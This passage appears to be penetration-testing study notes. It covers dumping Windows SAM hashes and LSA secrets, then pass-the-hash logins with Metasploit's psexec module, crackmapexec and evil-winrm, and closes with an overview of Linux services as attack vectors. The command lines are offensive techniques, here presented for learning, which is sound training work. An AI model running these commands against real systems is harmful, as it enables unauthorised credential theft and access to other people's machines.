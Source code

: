 After Windows later than 8.1 do not store passwords in clear text.

> lsa_dump_sam

It will provide the syskey (encryption) to the SAM database.

> lsa_dump_secrets

In some cases it can provide you with the clear text passowrds.

## Pass-The-Hash Attacks

- Pass-the-hashis an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
- We can use multiple tools to facilitate a Pass-The-Hashattack: 
    - MetasploitPsExecmodule
    - Crackmapexec
    - evil-winrm
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

### Metasploit PSExec module

Important! This module also requires LM hash!

> use exploit/windows/smb/psexec

> set SMBUser Administrator (user)

> set SMBPass (insert the hash here!)

> set target Native\ upload (tweak the settings of the target to your needs)


### Crackmapexec

- *crackmapexec smb* targetIP *-u Administartor (user) **-H** "NTLMhash"*

### evil-winrm

- *ruby evil-winrm.rb -i* targetIP *-u* user *-H* hash

# Overview of Linux Vulnerabilities

## Frequently Exploited Linux Services

- Linux is a free and open source operating system that is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
- This combination of open source software is what makes up the Linux OS as a whole, and it is commonly referred to as GNU/Linux.
- Linux has various use cases, however, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
- These services provide an attacker with an access vector that they can utilize to gain access to a target host.
- Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.
